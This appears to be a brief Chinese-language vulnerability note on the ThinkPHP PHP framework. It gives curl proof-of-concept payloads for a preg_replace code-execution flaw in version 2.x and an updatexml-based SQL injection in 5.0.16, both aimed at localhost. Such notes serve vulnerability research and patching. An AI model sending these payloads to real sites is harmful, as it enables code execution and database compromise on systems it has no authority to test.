 ## 2.X

### preg_replace 代码执行漏洞

当 `URL_PATHINFO_MODEL` 设置为 `1` 时存在代码执行漏洞

Poc

```
curl http://127.0.0.1/index.php/module/action/param1/$%7B@phpinfo()%7D
```


## 5.0.16 insert 注入

参考文档

* [ThinkPHP框架 5.0.x sql注入漏洞分析](https://paper.seebug.org/564/)

Poc

```
curl '127.0.0.1/public/index.php/index/index/testsql?username[0]=inc&username[1]=updatexml(1,concat(0x7,user(),0x7e),1)&username[2]=1
```

